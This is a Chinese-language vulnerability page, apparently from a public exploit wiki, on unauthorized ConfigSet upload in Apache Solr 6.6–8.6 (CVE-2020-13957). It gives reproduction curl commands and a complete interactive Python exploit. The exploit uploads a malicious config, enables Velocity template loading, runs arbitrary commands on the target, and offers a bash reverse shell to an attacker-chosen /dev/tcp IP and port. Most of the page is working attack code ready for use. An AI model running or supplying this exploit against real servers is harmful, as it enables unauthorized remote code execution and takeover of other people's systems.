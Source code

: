 ## 漏洞概述

在特定的Solr版本中ConfigSet API存在未授权上传漏洞，攻击者利用漏洞可实现远程代码执行。

## 影响版本

```http
Apache Solr 6.6.0 -6.6.5
Apache Solr 7.0.0 -7.7.3
Apache Solr 8.0.0 -8.6.2
```

## 漏洞复现

在攻击机上下载目标版本的Solr,执行下列命令打包压缩文件

```
solr-7.7.0/server/solr/configsets/sample_techproducts_configs/conf
zip -r - * > vuln.zip
```

![](http://wikioss.peiqi.tech/vuln/solr-22.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

将 vuln.zip 进行上传

```
curl -X POST --header "Content-Type:application/octet-stream" --data-binary @vuln.zip "http://xxx.xxx.xxx.xxx:8983/solr/admin/configs?action=UPLOAD&name=vuln"
```

> name参数为压缩包的文件名

利用漏洞创建一个 core 

```shell
curl "http://xxx.xxx.xxx.xxx:8983/solr/admin/collections?action=CREATE&name=peiqi&numShards=1&replicationFactor=1&wt=xml&collection.configName=vuln"
```

> name参数为创建的core核心名
>
> collection.configName参数为上传的文件名

![](http://wikioss.peiqi.tech/vuln/solr-23.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

查看core列表，发现已经成功创建

![](http://wikioss.peiqi.tech/vuln/solr-24.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

再使用 Apache Solr Velocity模板远程执行 CVE-2019-17558 即可执行任意命令

![](http://wikioss.peiqi.tech/vuln/solr-25.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

## 漏洞利用POC

> 使用前按复现步骤上传对应版本的zip文件，例如我这里上传的文件为 qwert.zip,其他使用方法与 Apache Solr Velocity模板远程执行 CVE-2019-17558 的POC使用方法类似

```python
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from   : http://wiki.peiqi.tech

import requests
import re
import sys
import os
import json

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
    print('+  \033[34mVersion: Apache Solr 6.6.0 -6.6.5        \033[0m')
    print('+  \033[34m         Apache Solr 7.0.0 -7.7.3        \033[0m')
    print('+  \033[34m         Apache Solr 8.0.0 -8.6.2        \033[0m')
    print('+  \033[36m使用格式: python3 cve-2020-13957.py       \033[0m')
    print('+  \033[36mUrl    >>> http://xxx.xxx.xxx.xxx:8983   \033[0m')
    print('+  \033[36mZip    >>> vuln.zip(Zip文件名)            \033[0m')
    print('+------------------------------------------')


def POC_1(target_url, file_name):
    core_name = str(input("\033[35mPlease input Create Core Name\nCore >>> \033[0m"))
    core_update = """%s/solr/admin/collections?action=CREATE&name=%s&numShards=1&replicationFactor=1&wt=xml&collection.configName=%s""" % (target_url, core_name, file_name.replace(".zip",""))
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    response = requests.get(url=core_update, headers=headers, timeout=30)
    if response.status_code != 200:
        print("\033[31m[x] 创建Core失败 \033[0m")
        sys.exit(0)
    else:
        core = re.findall(r'<str name="core">(.*?)</str>',response.text)[0]
        vuln_url = target_url + "/solr/" + core + "/config"
        print("\033[32m[o] 成功获得core_name,Url为：" + target_url + "/solr/" + core + "/config\033[0m")
        return vuln_url,core

def POC_2(target_url, core):
    open_params = target_url + "/solr/" + core + "/config"
    headers = {
        "Content-Type": "application/json",
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36"
    }
    set_api_data = """
    {
      "update-queryresponsewriter": {
        "startup": "lazy",
        "name": "velocity",
        "class": "solr.VelocityResponseWriter",
        "template.base.dir": "",
        "solr.resource.loader.enabled": "true",
        "params.resource.loader.enabled": "true"
      }
    }
    """
    response = requests.request("POST", url=open_params, data=set_api_data, headers=headers, timeout=10)
    if response.status_code == 200:
        print("\033[32m[o] POST请求成功将params.resource.loader.enabled设置为True \033[0m")
    else:
        print("\033[31m[x] POST请求params.resource.loader.enabled设置为True失败 \033[0m")
        sys.exit(0)


def POC_3(target_url, core, cmd):
    vuln_url = target_url + "/solr/" + core + "/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27" + cmd + "%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end"
    headers = {
        "Content-Type": "application/json",
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36"
    }
    response = requests.request("GET", url=vuln_url, headers=headers, timeout=10)
    if "Error 500" in response.text:
        print("\033[31m[x] 代码执行失败，响应为 Error 500 \033[0m")
    else:
        print("\033[32m[o] 漏洞成功利用,响应为\n \033[0m",response.text)

def POC_4(target_url, core, IP, PORT):
    # POC : /bin/bash -c $@|bash 0 echo bash -i >&/dev/tcp/xxx.xxx.xxx.xxx:9999 0>&1
    cmd = "%2Fbin%2Fbash%20-c%20%24%40%7Cbash%200%20echo%20bash%20-i%20%3E%26%2Fdev%2Ftcp%2F{}%2F{}%200%3E%261".format(IP, PORT)
    vnul_url = target_url + "/solr/" + core + "/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27" + cmd + "%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end"
    headers = {
        "Content-Type": "application/json",
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36"
    }
    response = requests.request("GET", url=vnul_url, headers=headers)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    file_name = str(input("\033[35mPlease input File Name\nZip >>> \033[0m"))
    vuln_url,core = POC_1(target_url, file_name)
    POC_2(target_url, core)

    while True:
        cmd = input("\033[35mCmd >>> \033[0m")
        if cmd == "exit":
            sys.exit(0)
        elif cmd == "shell":
            IP   = str(input("\033[35m请输入监听IP   >>> \033[0m"))
            PORT = str(input("\033[35m请输入监听PORT >>> \033[0m"))
            POC_4(target_url, core, IP, PORT)
        else:
            POC_3(target_url, core, cmd)
```

![](http://wikioss.peiqi.tech/vuln/solr-26.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)